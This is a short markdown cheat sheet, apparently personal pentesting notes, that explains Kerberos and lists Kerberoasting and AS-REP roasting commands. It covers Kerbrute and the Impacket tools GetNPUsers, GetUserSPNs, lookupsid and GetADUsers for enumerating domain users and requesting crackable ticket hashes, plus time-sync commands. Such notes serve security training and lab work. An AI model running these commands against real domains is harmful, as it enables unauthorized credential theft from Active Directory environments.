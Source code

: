 # Kerberoas

---
# Navigation
- **[[#Definition]]**
- **[[#Kerberoasting]]**
	- [[#Kerbrute]]
	- [[#Kerberoasting]] 
- **[[#Synchronizing time is important]]**
- **[[#Further reading]]**

---
# Definition
## What's Kerberoas
Kerberos is **an authentication protocol that works on the basis of tickets** that allows clients to connect to services over an insecure network and still allow clients to prove their identity in a secure manner.
## How does Kerberoas work?
1. Login.
2. Request for Ticket Granting Ticket – TGT, Client to Server.
3. Server checks if the user exists.
4. Server sends TGT back to the client.
5. Enter your password.
6. Client obtains the TGS Session Key.
7. Client requests server to access a service.
8. Server verifies if service exist.
9. Server verifies request.
10. Server generates service session key.
11. Client receives service session key.
12. Client contacts service.
13. Service receives the request.
14. Service verifies request.
15. Service confirms identity to the client.
16. Client receives confirmation.
17. Client communicates with the service.
> Detailed explaination here: https://www.vanimpe.eu/2017/05/26/kerberos-made-easy/

# Kerberoasting
The goal is to get a **TGS** and decrypt server's account hash.
> Pre-requesties: Have a username or a list of users.

## Kerbrute
 For user enumeration,Password spraying and more
 ```bash
 go get github.com/ropnop/kerbrute
```
## Impacket tools
 **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 ```bash
 impacket-GetNPUsers <DOMAIN>/ -dc-ip 10.10.10.240 -no-pass -usersfile usernames.txt -format john
 ```
  **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
  ```bash
  impacket-lookupsid <DOAMIN>/ -target-ip <IP>
  ```
  **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -usersfile usernames.txt -no-pass -request
 ```
  **impacket-GetADUsers**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.*If no entries are returned that means users don’t have email addresses specified so you can use **-all** option*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP> -all
 ```
 # Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
sudo ntpdate <RemoteMachine-IP>

#Second method
sudo apt install rdate
sudo rdate -n <DC>

#IF the above didn't work
sudo apt-get install chrony
sudo timedatectl set-ntp true 
sudo ntpdate <machine IP>
```
 # Further reading
 -  Explained -> [**Uncontrained/Constrained Delegation**](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatsheet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

